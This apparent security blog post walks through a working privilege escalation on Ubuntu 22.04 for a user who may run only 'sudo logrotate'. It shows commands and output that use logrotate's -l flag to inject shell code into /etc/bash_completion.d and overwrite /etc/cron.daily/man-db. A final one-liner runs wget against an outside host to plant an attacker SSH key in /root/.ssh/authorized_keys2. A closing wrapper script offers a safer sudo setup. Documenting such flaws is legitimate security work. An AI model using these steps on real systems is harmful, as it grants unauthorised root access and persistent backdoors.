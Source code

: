 ```yaml
---
layout: post
title: "root with a single command: sudo logrotate"
author: "Joshua Rogers"
categories: security
---
```


The scenario is this: a brand new Ubuntu 22.04 server has an account which is restricted to running `sudo logrotate *`.  Can we get root? Short answer: Yes. I couldn't find much online about this type of exploitation of logrotate, so let's document something for future use.

---

Note: as mentioned, the _user_ is limited to _only_ running `sudo logrotate *`. No other command is possible. This could be either through some `rbash`  setup, some ForceCommand setting in ssh, or something else. -- The point is: the _user_ cannot run anything other than `sudo logrotate`:

```bash
user ALL=(ALL:ALL) NOPASSWD: /usr/sbin/logrotate *
```

---

Let's first look at logrotate's help text:
```bash
$ logrotate --help
Usage: logrotate [OPTION...] <configfile>
[..]
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of `/usr/bin/mail')
  -s, --state=statefile     Path of state file
  -l, --log=logfile         Log file or 'syslog' to log to syslog
```

My first instinct was to use something like `sudo logrotate -m '/usr/bin/uname'`. The manual states that this flag is for:
```bash
       -m, --mail command
              Tells logrotate which command to use when mailing logs.
```

A logrotate configuration file may specify an email address to send log files when they are rotated:
```
       mail address: When a log is rotated out of existence, it is mailed to address.  If no mail should be generated by a particular log, the nomail directive may be used.
       nomail: Do not mail old log files to any address.
       mailfirst: When using the mail command, mail the just-rotated file, instead of the about-to-expire file.
       maillast: When using the mail command, mail the about-to-expire file, instead of the just-rotated file (this is the default).
```

However, no logrotate configuration files were mailing logs:
```bash
$ grep -nrI 'mail' /etc/logrotate.*
$
```

---

So, why not just create a new configuration? No dice:
```bash
$ sudo logrotate -m '/usr/bin/uname' ./mail
Potentially dangerous mode on ./mail: 0664
error: Ignoring ./mail because it is writable by group or others.

$ chmod 600 mail

$ sudo logrotate -m '/usr/bin/uname' -f ./mail
error: Ignoring ./mail because the file owner is wrong (should be root or user with uid 0).
```
So we need a very specific type of file: owned by root, and only writable by root. I first thought some log files may work:
```bash
-rw-r--r--   1 root      root                   0 Oct  1 00:00 dpkg.log
-rw-r--r--   1 root      root                   0 Oct  1 00:00 alternatives.log
-rw-r-----   1 root      adm                46992 Sep  5 15:48 dmesg
..
```
but I couldn't find anything that would let me log to the file verbatim, or without any extra characters at the end (due to logrotate's functionality, we can effectively log to the beginning of many log files too, since we can just rotate the log if there is a configuration file in _/etc/logrotate.d/_ already.)

---

I then thought _/var/mail/root_:
```bash
$ ls -l /var/mail/root
-rw------- 1 root mail 1 Oct  1 01:07 /var/mail/root
```
It definitely fits our requirements. So let's try:
```bash
$ cat <<< "/home/user/log.log {
mail address@example.com
}" | mail -s "Email Subject" root

$ sudo logrotate -m '/usr/bin/uname' -f /var/mail/root
error: /var/mail/root:1 unknown option 'From' -- ignoring line
error: /var/mail/root:2 keyword 'Return' not properly separated, found 0x2d
```
Unfortunately logrotate completely bawks on the second line in the mail file:
```mail
From user@server  Sun Oct  1 01:10:45 2023
Return-Path: <user@server>
X-Original-To: root
Delivered-To: root@server
Received: by server (Postfix, from userid 1000)
	id D689B7E3DD; Sun,  1 Oct 2023 01:10:45 +0000 (UTC)
Subject: Email Subject
To: root@server
User-Agent: mail (GNU Mailutils 3.14)
Date: Sun,  1 Oct 2023 01:10:45 +0000
Message-Id: <20231001011045.D689B7E3DD@server>
From: User <user@server>

/home/user/log.log {
mail address@example.com
}
```
So, out of luck here, too.

---

I moved on to the `-s` flag that logrotate provides, and while it can create files as root (and overwrite those that exist), it didn't provide much value:
```bash
$ ls -l /tmp/test
-rw-r----- 1 root root 29 Oct  1 01:19 /tmp/test

$ cat /tmp/test # run as root
logrotate state -- version 2
```

---

Finally, I took a look at the `-l` flag:
```bash
$ sudo logrotate -l ./nonexist test
error: cannot stat test: No such file or directory

$ cat nonexist
error: cannot stat test: No such file or directory
Reading state from file: /var/lib/logrotate/status
Allocating hash table for state file, size 64 entries
Creating new state
[..]

Handling 0 logs

$ ls -l nonexist
-rw-r--r-- 1 root root 952 Oct  1 01:28 nonexist
```
So we can write arbitrary data (**test** here is the arbitrary data, albeit with some garbage between it) to an arbitrary file which is owned by root. What more can we do with this?
```bash
user@server:/etc/bash_completion.d$ ls -l
total 4
-rw-r--r-- 1 root root 439 Feb 28  2023 git-prompt

user@server:/etc/bash_completion.d$ sudo logrotate -l /etc/bash_completion.d/backdoor '2>/dev/null;uname -a; return 0;'
error: cannot stat 2>/dev/null;uname -a; return 0;: No such file or directory

user@server:/etc/bash_completion.d$ ls -l
total 8
-rw-r--r-- 1 root root 652 Sep 30 14:35 backdoor
-rw-r--r-- 1 root root 439 Feb 28  2023 git-prompt

user@server:/etc/bash_completion.d$ cat backdoor
error: cannot stat 2>/dev/null;uname -a; return 0;: No such file or directory
acquired lock on state file /var/lib/logrotate/statusReading state from file: /var/lib/logrotate/status
Allocating hash table for state file, size 64 entries
Creating new state
[..]

user@server:/etc/bash_completion.d$ exit
logout
Shared connection to server closed.

$ ssh user@server
Last login: Sat Sep 30 14:33:20 2023 from 10.0.0.0
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

Basically, we can create an arbitrary file in `/etc/bash_completion.d/` which, if bash completion is enabled, will be sourced when a user logs into the server. The arbitrary data is `2>/dev/null;uname -a; return 0;` which effectively sends the first garbage data to _/dev/null_; executes `uname -a`; then returns, ignoring the rest of the junk data. This could be used to get a shell when a real user logs into the server, hopefully obtaining more access. Alternatively, we could create some file in _/etc/init.d/_, _/etc/profile.d/_, or overwrite _/etc/profile_. The possibilities are endless.

---

I wasn't happy with leaving it like this, so I took a further look. As it turns out, the permissions of the log files are retained too:
```bash
$ touch check-perms
$ chmod 777 check-perms
$ sudo logrotate -l ./check-perms test
error: cannot stat test: No such file or directory

$ ls -l check-perms
-rwxrwxrwx 1 user user 952 Oct  1 01:32 check-perms
```
What can we do with this?

Well, we can edit one of the scripts in _/etc/cron.daily/_:
```bash
user@server:/etc/cron.daily$ ls -l man-db
-rwxr-xr-x 1 root root 1395 Mar 12  2023 man-db

user@server:/etc/cron.daily$ sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;uname -a; exit 0;'
error: cannot stat 2>/dev/null;uname -a; exit 0;: No such file or directory

user@server:/etc/cron.daily$ ls -l man-db
-rwxr-xr-x 1 root root 652 Sep 30 14:50 man-db

user@server:/etc/cron.daily$ ./man-db
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```
The next time the cronjob runs, our arbitrary code is executed: as root.

---

So, to answer the question: with only the `sudo logrotate` command available, can we obtain root? Yep; it's as simple as:
```bash
sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;wget host/ssh.key -O /root/.ssh/authorized_keys2; exit 0;'
```
then wait until the cronjob is run, and just ssh in. That's my solution to this problem, anyways.

---

And of course, the slightly more appropriate way to achieve the goal of allowing a normal user to rotate logs would be to allow sudo to run a wrapper script like this:
```bash
#!/bin/sh
case "$1" in
    [a-z0-9A-Z\-])
       /usr/sbin/logrotate -f /etc/logrotate.d/"$1"
        ;;
    *)
        exit 1
        ;;
esac
```
